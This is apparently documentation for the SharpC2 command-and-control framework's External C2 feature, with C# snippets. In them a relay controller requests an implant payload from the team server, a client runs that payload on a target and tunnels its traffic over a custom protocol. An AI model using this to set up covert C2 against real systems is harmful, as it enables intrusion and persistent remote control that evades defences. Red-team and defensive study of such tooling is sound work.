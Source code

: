 External C2
===========

External C2 allow a 3rd application to act as a communication layer between the SharpC2 team server and Drone payload.  This allows you to implement completely custom C2 protocols without having to modify the core framework.

.. graphviz::

    digraph G {
        rankdir="LR";

        node [shape=box];

        tc [label="Team Server"];
        c1 [label="3rd Party Controller"];
        c2 [label="3rd Party Client"];
        dr [label="Drone"];

        tc <-> c1 [label="C2 Frames"];
        c1 <-> c2 [label="Custom C2 Protocol"];
        c2 <-> dr [label="C2 Frames"];
    }


ExternalC2.NET
--------------

The SharpC2 solution contains a .NET library to simplify the process of implementing ExternalC2.  Example Controller and Client projects are also provided.


3rd Party Controller
--------------------

The controller can leverage the ``ExternalC2.NET.Server`` namespace.  It must instantiate a new ``ServerController`` class with the IP address and port of the ExternalC2 handler, and then call ``Connect``.


.. code-block::

    if (args.Length != 2)
        {
            Console.WriteLine("demo-controller.exe <address> <port>");
            return;
        }

        var target = IPAddress.Parse(args[0]);
        var port = int.Parse(args[1]);

        // connect to the team server
        var controller = new ServerController(target, port);

        if (!await controller.Connect())
        {
            Console.WriteLine($"Failed to connect to {target}:{port}.");
            return;
        }


It then requests an SMB payload from the team server by providing a pipename.  This is returned in the form of a ``byte[]``.

.. code-block::

    // request payload
    var payload = await controller.RequestPayload(pipename);


The controller must then provide the payload to the 3rd party client.  The client will also need to know the pipename (this could be generated by the client and given to the controller over the custom C2 protocol).  It can then drop into a loop to continuously relay data from the 3rd party client to the team server.

.. code-block::

    while (your client is connected)
    {
        if (client has data)
        {
            // read from client
            var inbound = await YourReadMethod();
                
            // send it to team server
            await controller.SendData(inbound);
                
            // read data from team server
            var outbound = await controller.ReadData();
                
            // send it to the client
            await YourSendMethod(outbound);
        }

        await Task.Delay(100);
    }


3rd Party Client
----------------

The client can leverage the ``ExternalC2.NET.Client`` namespace.  It should initiate communication with your 3rd controller and either send or receive a pipename.  A ``ClientController`` class should be instantiated using that pipename.

.. code-block::

    var controller = new ClientController(pipename);


Once the payload has been received from the 3rd party controller, call the ``ExecutePayload`` method.  This will execute the Drone payload and attempt to connect to its SMB named pipe.

.. code-block::

    if (!await controller.ExecutePayload(payload))
    {
        Console.WriteLine("Failed to connect to pipe");
        return;
    }

It can then drop into a loop to continuously relay data from the drone to the 3rd party controller.

.. code-block::

    while (you're connected to the controller)
    {
        // read from drone
        var outbound = await controller.ReadDrone();

        // send to controller
        await YourSendMethod(outbound);

        // read from controller
        var inbound = await YourReadMethod();

        // send to drone
        await controller.SendDrone(inbound);

        await Task.Delay(100);
    }